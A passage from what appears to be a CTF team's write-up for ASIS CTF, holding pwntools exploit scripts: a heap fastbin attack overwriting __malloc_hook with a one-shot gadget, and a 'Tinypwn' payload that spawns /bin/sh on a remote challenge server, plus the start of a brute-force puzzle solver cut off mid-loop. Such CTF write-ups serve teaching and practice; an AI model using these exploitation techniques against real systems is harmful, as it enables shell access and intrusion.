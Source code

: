 ```python
add(0x70-0x10, flat(0x71, __malloc_hook))     # 7
remove(6)
remove(7)
remove(6)
# 6's fd += 0x10
change(6)
change(6)
change(6)
add(0x70-0x10, flat(0xdeadbeef))
add(0x70-0x10, flat(0xdeadbeef))
add(0x70-0x10, '\x00'*3+flat(0, magic))

# trigger malloc_printerr
remove(0)
remove(0)
#r.sendlineafter('choice : ', '0')
#r.sendlineafter('size : ', '100')

r.interactive()
# ASIS{321ba5b38c9e4db97c5cc995f1451059b4e28f6a}
```

### Tinypwn (kevin47)

* Use the syscall execveat

```python2
#!/usr/bin/env python2

from pwn import *
from IPython import embed
from ctypes import *
import re

context.arch = 'amd64'

#r = remote('127.0.0.1', 7124)
r = remote('159.65.125.233', 6009)

r.send('/bin/sh\x00'.ljust(296)+flat(0x4000ed)+'\x00'*18)

r.interactive()

# ASIS{9cea1dd8873d688649e7cf738dade84a33a508fb}
```

## PPC

### Neighbour (lwc)
$O(log N)$
```python=
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from sage.all import *
from pwn import *

def puzzle(s):
    import string
    for i in string.printable:
        for j in string.printable:
            for k in string.printable:
                for l in string.printable:
```